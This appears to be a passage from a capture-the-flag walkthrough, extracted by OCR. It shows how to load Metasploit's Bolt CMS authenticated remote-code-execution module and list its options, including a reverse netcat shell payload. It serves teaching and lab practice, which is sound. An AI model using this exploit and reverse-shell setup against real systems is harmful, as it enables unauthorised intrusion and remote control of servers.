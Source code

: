 ```bash

View the full module info with the info -d command.
```

# Vulnerability Exploitation
> Vulnerability Exploitation Using Metasploit
14. `use {EXPLOIT PATH}` to load in the exploit that we found for us to use
15. `show options` to display this module's required options and current settings onto our terminal 
```bash
msf6 > use exploit/unix/webapp/bolt_authenticated_rce
[*] Using configured payload cmd/unix/reverse_netcat
msf6 exploit(unix/webapp/bolt_authenticated_rce) >
```
```bash
msf6 exploit(unix/webapp/bolt_authenticated_rce) > show options

Module options (exploit/unix/webapp/bolt_authenticated_rce):

   Name                 Current Setting        Required  Description
   ----                 ---------------        --------  -----------
   FILE_TRAVERSAL_PATH  ../../../public/files  yes       Traversal path from "/files" on the web server to "/root" on the server
   PASSWORD                                    yes       Password to authenticate with
   Proxies                                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT                8000                   yes       The target port (TCP)
   SSL                  false                  no        Negotiate SSL/TLS for outgoing connections
   SSLCert                                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI            /                      yes       Base path to Bolt CMS
   URIPATH                                     no        The URI to use for this exploit (default is random)
   USERNAME                                    yes       Username to authenticate with
   VHOST                                       no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addre
                                       sses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   2   Linux (cmd)
```